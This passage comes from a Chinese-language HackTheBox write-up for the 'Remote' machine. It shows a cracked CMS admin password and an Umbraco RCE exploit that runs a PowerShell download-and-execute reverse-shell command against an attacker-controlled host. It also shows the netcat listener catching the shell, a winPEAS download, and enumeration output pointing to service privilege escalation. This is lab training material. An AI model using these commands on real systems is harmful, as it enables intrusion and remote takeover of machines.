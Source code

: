 解出来用户admin@htb.local密码哈希明文：baconandcheese，上面用户凭据可以登录cms

## 反弹shell

Exp：https://github.com/noraj/Umbraco-RCE

攻击：

```
root@kali# python3 exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180/' -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')"
```

收到一个反弹shell:

```
root@kali# nc -lnvp 4242                     
listening on [any] 4242 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.180] 49724
Windows PowerShell running as user REMOTE$ on REMOTE
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool
PS C:\windows\system32\inetsrv>
```

# 提权

## 传winpeas到靶机

```
(new-object System.Net.WebClient).DownloadFile('http://10.10.14.3:8000/winPEASx64.exe','C:\users\public\winPEASx64.exe')
```

> WinPEAS.exe下载地址：https://www.ddosi.org/peass-ng/#%E2%91%A0WinPEAS%E7%94%A8%E6%B3%95%E5%8F%8A%E8%AF%B4%E6%98%8E

执行：

```
& "C:\users\public\winPEASx64.exe"
```

> &是 PowerShell 中的调用操作符，它允许你执行指定路径下的可执行文件或者脚本。

## 服务提权

发现拥有开启和关闭一个RmSvc服务的权限

```
Modifiable Services
Z% Check if you can modify any service https://book.hacktricks.xyz/windows/windows-loc
al-privilege-escalation#services                                                                        
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:
    RmSvc: GenericExecute (Start/Stop)
    UsoSvc: AllAccess, Start
```
